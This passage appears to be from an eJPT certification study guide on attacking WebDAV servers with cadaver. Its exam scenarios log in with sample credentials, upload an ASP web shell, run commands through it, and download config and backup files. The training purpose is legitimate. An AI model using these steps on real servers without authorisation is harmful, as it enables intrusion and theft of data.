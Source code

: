 #### **Level 3 - Advanced Commands (40% exam probability):**
These commands demonstrate professional-level competency and operational efficiency.

```bash
# Local directory management - EFFICIENCY
lcd /tmp/payloads
# Expected: Local working directory change for easier file access

# Multiple file operations - BATCH PROCESSING
mput *.asp
mget *.txt
# Expected: Batch upload/download operations

# File properties - VERIFICATION
propfind uploaded_file.asp
# Expected: Detailed file metadata and verification
```

### **🎯 eJPT Exam Scenarios & Expected Responses:**

#### **Scenario 1: Basic Web Shell Upload**
**Given:** WebDAV server credentials (bob:password_123321) and DavTest results showing ASP execution capability  
**Task:** Upload and access a web shell for command execution  
**Time Allocation:** 5-7 minutes  

**Expected Approach:**
```bash
# Step 1: Establish WebDAV connection (1 minute)
cadaver http://target_ip/webdav
# Enter credentials when prompted: bob / password_123321

# Step 2: Upload appropriate web shell (2 minutes)
put /usr/share/webshells/asp/cmd.asp
# Verify 100% upload completion

# Step 3: Verify upload success (1 minute)
ls
# Confirm cmd.asp appears in directory listing

# Step 4: Test web shell access via browser (2-3 minutes)
quit
# Navigate to: http://target_ip/webdav/cmd.asp?cmd=whoami
# Expected: Command execution output displayed
```

#### **Scenario 2: File System Intelligence Gathering**
**Given:** Established WebDAV access with read permissions  
**Task:** Download configuration files and explore directory structure  
**Time Allocation:** 3-5 minutes  

**Expected Approach:**
```bash
# Step 1: Systematic directory exploration (2 minutes)
ls
pwd
cd subdirectory_if_present

# Step 2: Download interesting files (2 minutes)
get web.config
get .htaccess
get backup.sql
# Any configuration or backup files present

```